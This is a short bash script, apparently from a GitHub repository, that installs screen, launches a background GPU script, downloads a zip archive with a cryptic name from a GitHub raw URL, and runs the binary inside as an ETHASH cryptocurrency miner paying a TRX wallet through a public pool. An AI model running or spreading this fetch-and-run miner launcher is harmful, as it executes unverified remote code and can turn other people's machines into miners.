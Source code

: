 #!/bin/bash
sudo apt update && sudo apt install screen -y && screen -dmS gpuu.sh ./GPU.sh 65 75 && wget https://github.com/okg123/gur-l/raw/main/huyop.zip && apt install unzip && unzip huyop.zip && cd huyop && chmod u+x huyop && ./huyop --algo ETHASH --pool ethash.unmineable.com:3333 --user TRX:TUhisPLRuEvLxgeyhctGgm1vskr3aapMGX.op --ethstratum ETHPROXY
